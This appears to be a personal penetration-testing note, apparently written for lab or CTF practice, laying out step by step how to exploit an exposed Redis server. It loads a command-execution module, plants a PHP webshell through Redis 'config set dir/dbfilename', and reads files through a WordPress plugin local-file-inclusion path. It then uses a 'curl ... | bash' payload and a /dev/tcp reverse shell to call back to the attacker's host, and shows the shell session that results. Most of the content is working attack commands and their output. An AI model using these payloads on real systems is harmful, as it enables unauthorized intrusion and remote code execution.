```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

#### Download Redis

OPTION 1:

```bash - kali
sudo apt install redis-tools
```

```bash - kali
redis-cli -h $TARGET -a Ready4Redis?
```

If password doesn't work try obtaining the [[#Redis config files]].

xxx.xxx.xxx.xxx:6379> `ping`
`PONG`

```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand && cd RedisModules-ExecuteCommand
```

```bash - kali
sudo make
```

Upload module.so into victim (Example by FTP):

We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.

>/var/ftp/pub/module.so

### Redis RCE
```bash - kali
redis-cli -h $TARGET
```

```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```

```bash - kali
system.exec "id"
```

[[Port 22 - SSH  ~#Generate key upload to victim]]

### Redis config files
Use with LFI vulnerability.

```bash - kali
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```

```bash - kali
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```

#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /var/www/html
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
(error) ERR
```

If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to. 
```bash - kali
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```

Try the steps again with the new paths:
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
OK
xxx.xxx.xxx.xxx:6379> 
```

We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.

```bash - kali
┌──(kali㉿kali)-[~]
└─$ curl http://$TARGET/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ strings test.php      
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```


The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.

```bash - kali
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```

Let's host this file using a python webserver to make it available to the target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

We then need to start a listener to catch the reverse shell.
![[rlwrap]]

Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.

```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```

Finally, we trigger our reverse shell by using the WordPress LFI.

```bash - kali
curl http:$TARGET/?path=/opt/redis-files/test.php
```

This command will hang, and we will receive a connection to our listener.

```bash - kali
connect to [$KALI] from (UNKNOWN) [xxx.xxx.xxx.xxx] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
```
